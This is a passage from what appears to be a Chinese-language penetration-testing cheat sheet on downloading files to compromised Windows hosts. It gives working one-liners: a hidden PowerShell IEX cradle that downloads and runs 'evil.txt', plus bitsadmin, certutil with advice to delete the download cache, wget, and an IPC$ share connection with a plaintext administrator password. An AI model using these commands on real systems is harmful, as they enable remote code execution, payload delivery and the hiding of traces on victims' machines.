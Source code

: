 

远程执行命令：

```bash
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
```



### 2.Bitsadmin

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。

```bash
bitsadmin /transfer n http://192.168.28.128/imag/evil.txt D:\1.txt
```



### 3.certutil

用于备份证书服务，支持xp-win10。由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

注：缓存目录为`%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`

```bash
#下载文件 
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php 
#删除缓存 
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```



### 4.wget

Windows环境下，可上传免安装的可执行程序wget.exe到目标机器，然后使用wget下载文件。

下载地址：https://eternallybored.org/misc/wget/

```bash
wget -O "evil.txt" http://192.168.28.128/imag/evil.txt
```



### 5.ipc$文件共享

IPC$(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

```bash
#建立远程IPC连接 
net use \\192.168.28.128\ipc$ /user:administrator "abc123!" 

#复制远程文件到本地主机 
copy \\192.168.28.128\c$\2.txt D:\test
```


